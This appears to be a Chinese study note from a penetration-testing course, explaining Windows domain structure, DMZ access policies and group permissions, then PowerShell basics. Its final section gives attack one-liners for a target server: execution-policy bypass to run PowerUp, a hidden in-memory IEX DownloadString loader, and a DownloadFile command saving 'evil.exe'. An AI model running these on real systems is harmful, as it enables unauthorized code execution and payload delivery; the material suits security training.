

# 【第一章】内网渗透测试基础

**一、内网基础知识**

- **域控制器（DC）**
- 出于管理及其他需求，需要在网络中划分多个域。第一个域称为
- **域树**


（域树拓扑结构图）

- **域森林**


（域森林拓扑图）

- **域名服务器**
- **活动目录（AD）**

**安全域**的划分：划分安全域的目的是将一组安全等级相同的计算机划入同一网段。这个网段的计算机有相同的网络边界，并在网络边界上通过部署防火墙来实现对其他安全域的网络访问控制策略，从而对允许哪些IP地址访问此域、允许此域访问哪些IP地址和网段进行设置。



（安全域）

**DMZ**称为隔离区，是为了解决安装防火墙后外部网络不能访问内部网络服务器的问题而设立的一个非安全系统与安全系统之间的缓冲区。DMZ位于企业内部网络和外部网络之间。可以在DMZ中放置一些必须公开的服务器设施。

访问控制策略：

- 内网可以访问外网：在这一策略中，防火墙需要执行NAT
- 内网可以访问DMZ
- 外网不能访问内网
- 外网可以访问DMZ
- **DMZ不能访问内网：如果不执行此策略，当攻击者攻陷DMZ时，内网将无法受到保护。**
- **DMZ不能访问外网：此策略也有例外。例如，在DMZ中放置了邮件服务器，就要允许访问外网，否则邮件服务器无法正常工作。**

域中计算机的分类：

- 域控制器：可以有多台计算机被配置为域控制器
- 成员服务器：域中安装了服务器操作系统且没有安装活动目录的计算机
- 客户机：域中安装了其他操作系统的计算机
- 独立服务器：即服务器不加入域，也不安装活动目录

域内权限解读：

组（group\)是用户账号的集合。通过向一组用户分配权限，就可以不必向每个用户分别分配权限。

- 域本地组：多域用户访问单域资源（访问同一个域），可以从任何域添加用户账号、通用组和全局组，但只能在其所在域内指派权限。域本地组不能嵌套在其他组中。
- 全局组：单域用户访问多域资源（必须是同一个域中的用户），只能在创建该全局组的域中添加用户和全局组。可以在域森林的任何域中指派权限。全局组可以嵌套在其他组中。
- 通用组：通用组的成员来自域森林中任何域的用户账号、全局组和其他通用组，可以在该域森林的任何域中指派权限，可以嵌套在其他组中，非常适合在域森林内的跨域访问中使用。
- **A\-G\-DL\-P策略 是指将用户账号添加到全局组中，将全局组添加到域本地组中，然后为域本地组分配资源权限。**

               A表示用户账号（Account\)、G表示全局组（Global Group）、U表示通用组（Universal Group\)、DL表示域本地组（Domain Local Group\)、P表示资源权限（Permission）

               当A\-G\-DL\-P策略形成后，当需要给一个用户添加某个权限时，只要把这个用户添加到某个本地域组中就可以了。

**二、PowerShell基础**

PowerShell的基本概念

- **.ps1**
- 执行策略：为了防止使用者运行恶意脚本，PowerShell提供了一个执行策略。在默认情况下，这个执行策略被设置为“不能运行”。如果PowerShell脚本无法运行，可以使用下面的cmdlet命令查询当前的执行策略

           **Get\-ExecutionPolicy** : 1、Restricted 脚本不能运行（默认设置）；2、RemoteSigned 在本地创建的脚本可以运行，但从网上下载的脚本不能运行（拥有数字证书签名的除外）；3、AllSigned 仅当脚本由受信任的发布者签名时才能运行；4、**Unrestricted 允许所有脚本运行**

           

           可以使用下面的cmdlet命令设置PowerShell的执行策略

```
Set-ExecutionPolicy <policy name>
Set-ExecutionPolicy Unrestricted
```

           **要想运行powershell脚本，必须使用管理员权限将策略从Restricted改成Unrestricted**

           

- 运行脚本：要想运行一个PowerShell脚本，必须输入完整的路径和文件名，例如"C:\\Scripts\\a.ps1" 。如果PowerShell脚本文件刚好在系统目录中，在命令提示符后直接输入脚本文件名（例如".\\a.ps1"）即可运行脚本。
- 管道：管道的作用是将一个命令的输出作为另一个命令的输入，两个命令之间用"|"连接。例如，执行如下命令，让所有正在运行的、名字以字符"p"开头的程序停止运行。

```
PS> get-process p* | stop-process
```

PowerShell的常用命令

在powershell下，类似cmd命令的命令叫做**cmdlet**命令。二者的命名规范一致，都采用"**动词\-名词**"的形式，例如"New\-Item"。命令的别名一般兼容Windows Command和Linux Shell，例如Get\-ChildItem命令在dir和ls下均可使用。另外，**PowerShell命令不区分大小写**。

- **绕过本地权限并执行。**

           将powerup.ps1上传至目标服务器。在命令行环境下，执行如下命令，绕过安全策略，在目标服务器本地执行该脚本

```
PowerShell.exe -ExecutionPolicy Bypass -File PowerUp.ps1
```

           


  

         将同一个脚本上传到目标服务器中，在目标本地执行脚本文件，命令如下

```
powershell.exe -exec bypass -Command "& {Import-Module C:\PowerUp.ps1; Invoke-AllChecks}" 
```

- **从网站服务器中下载脚本，绕过本地权限并隐藏执行**

```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Noprofile -NonI IEX(New-Object Net.WebClient).DownloadString("xxx.ps1");[Parameters]
```

          \-ExecutionPolicy Bypass\(\-Exec Bypass\)：绕过执行安全策略。

          \-WindowStyle Hidden \(\-W Hidden\): 隐藏窗口

          \-NonInteractive \(\-NonI\) ：非交互模式

          \-NoProfile （\-NoP\) : powershell控制台不加载当前用户的配置文件

          \-noexit : 执行后不退出shell。这个参数在使用键盘记录等脚本时非常重要

          \-NoLogo：启动不显示版权标志的Powershell

```
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}');
该命令将#{remote_script}加载到内存，并没有把该脚本下载到本地
```

- 在64位的Windows操作系统中，存在两个版本的powershell，一个是x64版本的，另一个是x86版本的。这两个版本的执行策略不会互相影响，可以把它们看成两个独立的程序。x64版本powershell的配置文件在%windir%\\syswow64\\WindowsPowerShell\\v1.0\\目录下。
- 远程下载文件保存在本地：

```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
```
